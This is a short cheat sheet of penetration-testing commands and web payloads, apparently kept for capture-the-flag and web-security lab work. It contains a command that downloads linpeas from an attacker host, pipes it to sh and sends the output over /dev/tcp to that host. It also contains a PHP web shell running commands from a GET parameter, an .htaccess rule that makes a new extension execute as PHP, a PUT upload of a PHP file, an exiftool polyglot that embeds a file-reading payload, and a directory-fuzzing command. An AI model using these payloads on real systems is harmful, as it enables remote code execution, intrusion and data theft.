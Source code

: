 Exécuter un programme sur un reverse shell
```bash
attacker1$ python3 -m http.server  <- se lance sur le port 8000
attacker2$ nc -nlvp 9000 | tee linpeas-out.txt 

victim$ curl http://attacker_ip:8000/linpeas.sh | sh > /dev/tcp/attacker_ip/9000
```


# WEB
`php shell`
```php
<?php system($_GET['cmd']);
echo shell_exec("cat ../../../../../../home/carlos/secret");
?>
```

`.htaccess`
```ruby
AddType application/x-httpd-php .l33t
```

`fuzzing`
```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://analytical.htb/FUZZ -ic -mc all -fs 162
```

`upload with PUT`
```bash
PUT /images/exploit.php HTTP/1.1 Host: vulnerable-website.com Content-Type: application/x-httpd-php Content-Length: 49 <?php echo file_get_contents('/path/to/file'); ?>
```

`polyglot file`
```bash
 exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cars-1-a-370x500.jpg -o polyglot.php
```